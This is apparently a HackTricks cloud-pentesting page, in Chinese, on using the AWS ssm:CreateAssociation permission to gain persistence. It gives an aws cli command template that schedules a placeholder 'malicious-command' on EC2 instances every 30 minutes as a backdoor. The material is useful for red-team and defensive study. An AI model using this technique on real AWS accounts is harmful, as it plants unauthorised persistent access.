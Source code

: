 # AWS - SSM 持久性

{{#include ../../../banners/hacktricks-training.md}}

## SSM

有关更多信息，请查看：

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### 使用 ssm:CreateAssociation 实现持久性

具有权限 **`ssm:CreateAssociation`** 的攻击者可以创建一个状态管理器关联，以自动在由 SSM 管理的 EC2 实例上执行命令。这些关联可以配置为在固定间隔内运行，使其适合于类似后门的持久性，而无需交互式会话。
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> 这种持久性方法只要 EC2 实例由 Systems Manager 管理，SSM 代理正在运行，并且攻击者有权限创建关联，就可以工作。它不需要交互式会话或明确的 ssm:SendCommand 权限。**重要：** `--schedule-expression` 参数（例如，`rate(30 minutes)`）必须遵守 AWS 的最小间隔 30 分钟。对于立即或一次性执行，完全省略 `--schedule-expression` — 关联将在创建后执行一次。

{{#include ../../../banners/hacktricks-training.md}}
